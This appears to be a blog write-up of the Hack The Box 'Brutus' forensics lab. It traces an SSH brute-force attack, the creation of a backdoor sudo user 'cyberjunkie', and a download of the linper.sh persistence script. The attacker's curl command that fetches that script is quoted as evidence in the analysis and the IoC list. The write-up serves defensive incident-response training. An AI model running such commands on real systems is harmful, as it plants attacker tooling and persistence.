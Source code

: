 ```yaml
---
title: "HTB SHERLOCK | BRUTUS"
date: 2025-03-21 00:00:00 +0800
categories: [SHERLOCK]
tags: [Linux]                    
---
```


![img-description](/assets/img/SHERLOCK/Sherlock.jpg)

This is an incident report created for the HTB Sherlock named Brutus. The incident is rated Very Easy and revolves around looking at log files to determine who cause the brute force attack and what they subsequently did to the system after the attack.

# INCIDENT REPORT

## Incident 1:

Incident ID: XXXXXXXX

Incident Severity: Critical

Incident Status: In Progress

Incident Overview:

Key Findings:

A critical security incident has been identified, involving unauthorized access to internal systems. Initial indicators suggest potential data exfiltration and system compromise. Attack techniques observed align with known adversary tactics, indicating a sophisticated threat actor.

Immediate Actions:

Containment measures initiated, including isolating affected systems and revoking compromised credentials. Incident response team mobilized to analyze logs, identify root cause, and implement security patches. Enhanced monitoring deployed across the network to detect further malicious activity. Communication established with relevant stakeholders, including legal and compliance teams.

Stakeholder Impact:

* Customers: Potential exposure of personal or transactional data under investigation. Customer services temporarily impacted due to security enforcement measures.

* Employees: Some employee accounts flagged for suspicious activity; forced password resets implemented. Awareness training and phishing alert notifications disseminated across the organization.

* Business Partners: No confirmed impact on third-party vendors or partners, but proactive notification is underway.

* Regulatory Bodies: Compliance teams assessing reporting obligations under GDPR, HIPAA, or other relevant frameworks.

* Internal Teams: Security, IT, and legal teams actively engaged in response efforts. Coordination with PR and communication teams to manage public disclosures.

* Shareholders: Potential reputational and financial risks identified; executive leadership informed and engaged.

---

## Technical Analysis

### Affected Systems & Data

Primary target identified as internal authentication and database systems. Potential exposure of sensitive corporate and customer data.

### Evidence Sources & Analysis

![img-description](/assets/img/SHERLOCK/BRUTUS/1.png)

The investigation relied on multiple forensic artifacts and include:

- auth.log
- wtmp
- wtmp.output
- Brutus.zip



**auth.log Analysis**

![img-description](/assets/img/SHERLOCK/BRUTUS/2.png)

![img-description](/assets/img/SHERLOCK/BRUTUS/3.png)

![img-description](/assets/img/SHERLOCK/BRUTUS/4.png)

- The attacker successfully accessed the system via SSH using the root account, with the source IP identified as `65.2.161.68`.
- Shortly after the initial compromise, at 06:34:18, the attacker began creating a new user for persistence:
    - 'groupadd' and 'useradd' commands show creation of the `cyberjunkie` user (UID 1002), with '/bin/bash' shell and a home directory.
    - The attacker modified user details and added 'cyberjunkie' to the 'sudo' group, granting it root privileges.
- At 06:39:18, 'cyberjunkie' used 'sudo' to download a script from GitHub:

```
sudo /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```
    
This activity indicates likely post-exploitation or enumeration via a potentially malicious script.

**wtmp.output Analysis**

![img-description](/assets/img/SHERLOCK/BRUTUS/5.png)

- This file revealed detailed login session records.
- It confirms the SSH session for root originated from 65.2.161.68 and began at 2024-03-06 06:32:45.
- The session ended at 06:37:24.
- The 'cyberjunkie' user logged in shortly afterward, assigned session ID 7, from the same IP address.
- These records validate the timeline of compromise, privilege escalation, and attacker persistence.


### Indicators of Compromise (IoCs)

- Attacker IP: 65.2.161.68
- Malicious user account: cyberjunkie
- Timestamps of unauthorized access:
    - Root login: 2024-03-06 06:32:45
    - Session end: 2024-03-06 06:37:24
- MITRE Technique: T1136.001 (Create Account: Local Account)
- Malicious script URL:  
```
https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```
* Malicious command executed:
```
/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```
### Root Cause Analysis

Unauthorized access gained through a successful brute-force attack on the root user account. Weak or compromised credentials allowed the attacker to bypass authentication. Lack of proper SSH hardening and detection controls contributed to the incident’s severity.

### Technical Timeline

- Reconnaissance
	- Unknown/TBD
    
- Initial Compromise
	- Brute force on SSH (root) account from IP 65.2.161.68
    
- C2 Communications
	- Unknown/TBD
    
- Enumeration
	- User enumeration and privilege check via root session
    
- Lateral Movement
	- Unknown/TBD
    
- Data Access and Exfiltration
	- Access to system via cyberjunkie account
    
- Malware Deployment or Activity
	- Script downloaded: linper.sh
    

### Nature of the Attack

The incident began with a brute-force attack over SSH targeting the root account, using IP 65.2.161.68. Upon gaining access, the attacker created a persistent user cyberjunkie with elevated privileges. They then used the new account to execute a curl command to download a potentially malicious script (linper.sh) from GitHub, likely as part of post-exploitation or persistence mechanisms.

MITRE ATT&CK Techniques observed:

- T1110 – Brute Force
- T1136.001 – Create Account: Local Account
- T1059 – Command and Scripting Interpreter
- T1105 – Ingress Tool Transfer
